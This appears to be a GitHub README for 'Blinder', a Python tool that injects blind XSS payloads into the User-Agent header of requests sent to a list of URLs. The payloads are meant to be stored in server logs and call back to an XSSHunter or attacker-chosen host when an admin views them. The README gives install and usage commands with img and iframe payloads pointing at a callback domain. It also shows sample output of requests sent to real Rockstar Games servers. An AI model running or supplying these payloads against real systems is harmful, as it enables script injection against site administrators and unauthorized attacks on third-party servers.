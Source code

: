 # Blinder
- A Tool Written In Python3 To Send Blind Payloads On The Request Headers Maybe Stored On The Logs

## Description
- That's a New Version Of Blinder You Can Use To Automate Sending Payloads Into URLs With a Fast Way. It Basicly Uses The Payload You Provide To Send It On The Value Of The *User-Agent* Header To Inject The Payload Into The Server Logs If The Admin Can View It. In This Case You Should Receive An Alert On Your XSSHunter/Bin. That's Just It.

### Installation
```
git clone https://github.com/DEMON1A/Blinder
cd Blinder
python3 Blinder.py [ARGS]
```

### What's New?
- Threading To Improve The Script Speed.
- Using Your Own External Bin Instead Of Just Using XSSHunter
- Using Your Own Payloads That Could Be Used To Inject Other Payloads For Other Issues
- Been Able To Allow/Disallow Redirects With Requests
- You Can Use Multi Payloads With The Requests And Select The Split Char
- Cleaner Code!

### How To Use:
- For Basic Usage With a Basic Payload You Can Just The Script Using This:

```
python3 Blinder.py -f URLs.txt -u hacker -r allow
```

- The Script Can't Run Without Getting The Redirection Rule. You Can Select Between `allow` and `deny` That Chooses If The Redirections Will Be Followed In This Case Or Not.

- To Add Your Own Payload You Have To Use `XXX` On Your Payload So It Could Be Replaced With The XSSHunter/ExternalBin. For Example If You Want To Create Your Own Payload It Will Look Like This:

```
python3 Blinder.py -f URLs.txt -u hacker -r allow -p '"><img src="XXX">'
```

- Make Sure The `XXX` In This Case Are Able In a Upper Case.

- To Use Your Own ExternalBin Instead Of XSSHunter You Have To Use `-b` Option. With Your External Host Including The Protocol. For Example

```
python3 Blinder.py -f URLs.txt -b https://www.example.com/ -r allow -p '"><img src="XXX">'
```

- If You Didn't Add a Payload In Any Cases, Blinder Will Auto Set The Default XSSHunter XSS Payload To Use It.

- You Can Use Multi Payloads With The Requests By Adding a Split Char Between Them You Can Select. If You Didn't Add The Split Char The Program Will Auto Set It Into `,` In This Case. To Use Multi Payloads It Will Look Like This

```
python3 Blinder.py -f URLs.txt -u hacker -r allow -p '"><img src="XXX">','"><iframe src="XXX">' -s ,
```
- The Output Will Be Something Like That In This Case.

```
Request Has Been Sent To: https://scapi.rockstargames.com, Status-Code: 403 , Payload: "><img src="https://hacker.xss.ht/">
Request Has Been Sent To: https://scapi.rockstargames.com, Status-Code: 403 , Payload: "><iframe src="https://hacker.xss.ht/">
Request Has Been Sent To: http://scapi.rockstargames.com, Status-Code: 301 , Payload: "><img src="https://hacker.xss.ht/">
Request Has Been Sent To: http://scapi.rockstargames.com, Status-Code: 301 , Payload: "><iframe src="https://hacker.xss.ht/">
Request Has Been Sent To: https://prod.p01ewr.pod.rockstargames.com, Status-Code: 200 , Payload: "><img src="https://hacker.xss.ht/">
Request Has Been Sent To: https://prod.p01ewr.pod.rockstargames.com, Status-Code: 200 , Payload: "><iframe src="https://hacker.xss.ht/">
Request Has Been Sent To: https://prod.p02sjc.pod.rockstargames.com, Status-Code: 200 , Payload: "><img src="https://hacker.xss.ht/">
Request Has Been Sent To: https://prod.p02sjc.pod.rockstargames.com, Status-Code: 200 , Payload: "><iframe src="https://hacker.xss.ht/">
Request Has Been Sent To: https://prod.p02ewr.pod.rockstargames.com, Status-Code: 200 , Payload: "><img src="https://hacker.xss.ht/">
Request Has Been Sent To: https://prod.p02ewr.pod.rockstargames.com, Status-Code: 200 , Payload: "><iframe src="https://hacker.xss.ht/">
Request Has Been Sent To: https://warehouse.rockstargames.com, Status-Code: 302 , Payload: "><img src="https://hacker.xss.ht/">
Request Has Been Sent To: https://warehouse.rockstargames.com, Status-Code: 302 , Payload: "><iframe src="https://hacker.xss.ht/">
Request Has Been Sent To: https://prod.p01sjc.pod.rockstargames.com, Status-Code: 200 , Payload: "><img src="https://hacker.xss.ht/">
Request Has Been Sent To: https://prod.p01sjc.pod.rockstargames.com, Status-Code: 200 , Payload: "><iframe src="https://hacker.xss.ht/">
```

### Something Isn't Working Or You Want To Improve Something?
- Then Please Open an Issue With It Or You Can Fork The Project Then Create a Pull Request.
